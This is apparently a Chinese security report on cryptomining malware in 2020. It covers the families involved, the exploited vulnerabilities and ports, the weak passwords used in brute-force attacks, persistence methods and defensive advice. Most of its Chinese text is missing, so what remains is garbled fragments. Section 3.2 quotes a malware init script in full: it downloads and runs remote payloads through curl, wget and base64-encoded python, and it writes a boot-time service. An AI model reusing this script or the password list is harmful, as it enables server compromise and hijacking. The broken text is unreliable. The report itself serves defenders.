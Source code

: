 2020 

2020  5 /BTC  9200  2019  10   6   6   
coinmarketcap.com

2020 
2020 
 2020  TOP   
 1.
1.1  TOP  2020  DTLMiner H2Miner GuardMiner                 DTLMiner

NSABuffMinerNSAGluptebaMiner RedisHadoopWeblogic Drupalthinkphp  H2MinerGuardMinerz0Miner 8220Miner  KoiMiner 
1.2    H2Miner  98% CPU 

   DDoS   C2 
   
   
  

2. 2.1  RCE   TOP 
 2020  RCE WebLogic CVE-2019-2725   



 Redis Hadoop Yarn RESET API Docker Remote API Kubernetes Jenkins XXL-JOB  phpMyAdmin Apache Flink Dashboard PostgreSQL

 6379 8088 2375
10255/10250 8080 9999 888 8081 5342

  1Z0Miner  15 
 2020  11  2  z0Miner  Weblogic           CVE-2020-14882/14883             Weblogic 2020.10.21 15 

  
 2redis  SuperManMiner 
 Redis   golang  superman  1 
 Redis  redis   redis  
 3RunMiner  1.6 
 RunMiner  Apache Shiro  CVE-2016-4437RunMiner   shell  C2  Run.sh XMRig  tcpp  

 RunMiner ( 268.6KH/s)  16000  
2.2    adminroottest111111123456   admin admin12 admin888 admin8 admin123 sysadmin adminxxx adminx root roots test test1 test123

test2 password aaaAAA111 888888 88888888 000000 00000000 111111 11111111 aaaaaa aaaaaaaa 135246 135246789 123456
 2020   SSHMssqlRedis  
MS SQL GuardMiner MrbMinerBasedMiner

 GO 
SSH  Ks3_MinerLoggerMiner8220MinerDDG
Redis  H2MinerGuardMinerDDG
Msql  Mykings
2.3 
    
 TOP  DTLMiner H2MinerGuardMiner  


 2020  Linux  SSH  OutlawPrometei Docker Remote API  TeamTNT Nexus Repository Manager 3  Mysql Tomcat Weblogic  Sysrv-hello 

 4TeamTNT



TeamTNT  2375  Docker Remote API  TeamTNT  RSA AWS CLI  docker  C2  TeamTNT  SSH  
 5Sysrv-hello  Sysrv-hello  Nexus Repository Manager 3 

 mysqlTomcat Weblogic  CVE-2020-14882 Linux  Windows 
 6Outlaw                         Outlaw       Outlaw 2018  SSH   Perl  Shellbot  Outlaw 2  Linux   dota3.tar.gzOutlaw

 3  shell kswapd0  tsm32tsm64  SSH 

3.  
3.1 Linux  WatchbogMiner 
1  /etc/crontab /var/spool/cron/root /var/spool/cron/crontabs/root /etc/cron.d/system /etc/cron.d/apache /etc/cron.d/root /etc/cron.hourly/oanacroane /etc/cron.daily/oanacroane /etc/cron.monthly/oanacroane

2 crontab  3 at 

4"/home/$me/.bashrc""/root/.bashrc"
3.2 Linux  1WannaMine /etc/rc.d/init.d  
28220Miner /etc/init.d/down 

echo -e '#!/bin/bash

### BEGIN INIT INFO

# Provides:

down

# Required-Start:

# Required-Stop:

# Default-Start: 2 3 4 5

# Default-Stop:

# Short-Description: down (by pwned)

### END INIT INFO

(curl -fsSL hxxp://5.196.247.12/xms||wget -q -O- hxxp://5.196.247.12/xms)|bash -sh; echo

cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8

1LjE5Ni4yNDcuMTIvZC5weSIpLnJlYWQoKSkn | base64 -d | bash -; lwp-download

hxxp://5.196.247.12/xms /tmp/xms; bash /tmp/xms' > /etc/init.d/down

3Muhstik /etc/inittab

44SHMiner /etc/init.d/c3pool_miner 

5  4SHMiner4SHMiner



/etc/systemd/system/moneroocean_miner.service 

3.3 Windows WMI KingMiner  WMI  WindowsSystemUpdate_WMITimer         WindowsSystemUpdate_consumer        WindowsSystemUpdate _filter  15 



      


 20   SOC 
 

4.1  1 Linux  SSH Windows SQL Server     Linux MysqlTomcat 
2 RedisHadoop YarnDockerXXL-JOBPostgres  

3 WeblogicApache StrutsApache FlinkThinkPHP      
4.2   

 1 CPU  100% Kill kill  shell 

2/var/spool/cron/root/var/spool/cron/crontabs/root  
3 Web 

